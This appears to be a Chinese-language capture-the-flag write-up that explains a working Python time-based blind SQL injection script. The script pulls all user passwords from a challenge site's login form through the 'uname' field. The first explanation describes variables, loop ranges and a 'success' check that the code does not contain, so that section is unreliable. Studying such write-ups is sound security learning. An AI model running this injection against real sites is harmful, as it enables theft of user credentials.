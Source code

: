 这段代码是一个 Python 脚本，旨在通过 SQL 注入攻击来获取网站中用户的密码。代码的逻辑：

1. 导入了 `requests` 和 `time` 模块。
2. 定义了目标网站的 URL。
3. 初始化了一个空字符串 `name`，用于存储获取到的密码。
4. 使用了两个嵌套的 `for` 循环。外层循环从 0 到 49，内层循环从 31 到 128，即 ASCII 码中可打印字符的范围。
5. 在每次循环中，构造了一个 SQL 注入 payload，将其作为用户名 (`uname`) 发送给目标网站。payload 中的 SQL 语句用于检查数据库中用户密码的每个字符。
6. 如果网站返回的响应中包含了 `success` 字符串，则表示当前尝试的字符是密码中的一部分。程序将该字符添加到 `name` 变量中，并打印出当前已获取的密码。
7. 如果没有找到正确的字符，则继续内层循环。
8. 当找到密码的每个字符后，程序会打印出完整的密码。

```py
import requests
import time
url = 'http://challenge.qsnctf.com:31966/login.php'#网站放这里
res = ""

for i in range(1, 48, 1):
    for j in range(32, 128, 1):
        payload = f"if(ascii(substr((select group_concat(password) from users),{i},1))>{j},sleep(0.5),0)#"
        data = {
            'uname': "admin' and " + payload,
            'psw': 123456
        }
        try:
            r = requests.post(url=url, data=data, timeout=0.2)
        except Exception as e:
            continue

        res += chr(j)
        print(res)
        break
```

用于通过时间延迟盲注攻击来获取网站中用户的密码。代码的逻辑：

1. 导入了 `requests` 和 `time` 模块。

2. 定义了目标网站的 URL。

3. 初始化了一个空字符串 `res`，用于存储获取到的密码。

4. 使用了两个嵌套的 `for` 循环。外层循环从 1 到 47，内层循环从 32 到 127，即 ASCII 码中可打印字符的范围。

5. 在每次循环中，构造了一个 SQL 注入 payload，该 payload 通过比较密码的每个字符的 ASCII 值，如果大于当前尝试的 ASCII 值，则执行一个时间延迟操作（`sleep(0.5)`）。

   当构造 SQL 注入 payload 时，代码会使用 `f-string` 格式化字符串的方法，将注入的 SQL 语句嵌入到用户名 (`uname`) 中的字符串中。

   具体来说，payload 的构造涉及到以下几个步骤：

   1. `substr((select group_concat(password) from users),{i},1)`: 这部分 SQL 语句用于从数据库中获取用户密码中的每个字符。其中，`substr` 函数用于截取字符串的一部分，第一个参数是要截取的字符串，第二个参数是截取的起始位置，第三个参数是截取的长度（这里固定为 1），这样就能逐个获取密码的每个字符。
   2. `ascii(...)`: 这部分 SQL 语句用于将获取到的字符转换为其对应的 ASCII 码值。
   3. `if(ascii(...)>{j},sleep(0.5),0)`: 这部分 SQL 语句构造了一个条件判断，如果获取到的字符的 ASCII 码值大于当前循环尝试的 ASCII 码值 `{j}`，则执行 `sleep(0.5)` 操作，即让程序等待 0.5 秒；否则，返回 0。这样就通过时间延迟来判断字符是否符合条件。
   4. `#`: 最后加上 `#` 是为了注释掉原始 SQL 语句的结尾，以防止与注入的 SQL 语句混淆。

